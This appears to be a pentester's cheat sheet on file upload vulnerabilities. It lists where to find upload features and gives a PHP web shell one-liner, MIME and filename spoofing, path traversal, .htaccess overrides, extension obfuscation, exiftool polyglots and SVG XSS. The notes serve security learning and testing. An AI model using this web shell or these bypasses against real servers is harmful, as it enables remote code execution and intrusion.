 ### Where to look

- Look for file upload functionalities throughout the application, including those related to business functions and profiles/account pages
### What to try

- PHP web shell `<?php echo system($_GET['command']); ?>` using `GET /example/exploit.php?command=id HTTP/1.1`
- Look for location of file upload or where it is being referenced in source or response code
- Change MIME type of upload to `image/png` via `Content-Type`
- Change `Content-Disposition` header value `filename` to include a path traversal sequence `../exploit.php`
- Try encoded path traversal sequences `..%2fexploit.php`
- Override server config with `htaccess` or `web.config` files, for example `AddType application/x-httpd-php .l33t` before a file called `exploit.l33t`
- Obfuscate file extensions, like `exploit.php.jpg`, `exploit.php.`, `exploit%2Ephp`, `exploit.asp;.jpg`, `exploit.asp%00.jpg`, or `exploit.p.phphp`
- Polyglot file with exiftool `exiftool "-comment<=webshell.php" photo.png`
- Upload XSS payloads via HTML or SVG images for client-side attacks
- Try uploading via PUT request support `PUT /images/exploit.php`

### More Details

More details can be found at [[Cyber Security/Learning/Web Security Academy/File Upload Vulnerabilities|File Upload Vulnerabilities]]